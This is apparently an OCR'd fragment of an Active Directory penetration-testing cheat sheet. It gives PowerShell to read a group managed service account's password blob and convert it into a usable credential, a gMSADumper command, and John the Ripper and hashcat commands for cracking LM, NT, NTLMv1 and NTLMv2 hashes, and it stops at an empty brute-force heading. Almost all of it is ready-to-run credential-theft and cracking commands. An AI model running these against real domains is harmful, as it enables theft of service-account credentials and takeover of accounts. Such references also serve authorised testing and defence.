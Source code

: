 #### Read GMSA Password

```
$user = 'USER'
$gmsa = Get-ADServiceAccount -Identity $user -Properties 'msDS-ManagedPassword'
$blob = $gmsa.'msDS-ManagedPassword'
$mp = ConvertFrom-ADManagedPasswordBlob $blob
$cred = New-Object System.Management.Automation.PSCredential $user, $mp.SecureCurrentPassword
```

_gMSA dumping:_

```
python3 gMSADumper.py -u $user -p $password -d $domain.local
```

### Hash Cracking

> LM :

```
# using JTR :
john --format=lm hash.txt
# using hashcat :
hashcat -m 3000 -a 3 hash.txt
```

> NT :

```
# using JTR :
john --format=nt hash.txt --wordlist=wordlist.txt
# using hashcat :
hashcat -m 1000 -a 3 hash.txt
```

> NTLMv1 :

```
# using JTR :
john --format=netntlmv1 hash.txt
# using hashcat :
hashcat -m 5500 --force -a 0 hash.txt wordlist.txt
```

> NTLMv2 :

```
# using JTR :
john --format=netntlmv2 hash.txt
# using hashcat :
hashcat -m 5600 --force -a 0 hash.txt wordlist.txt
```

note : some Hash Type in hashcat depend of the **etype**

### Bruteforce AD Password

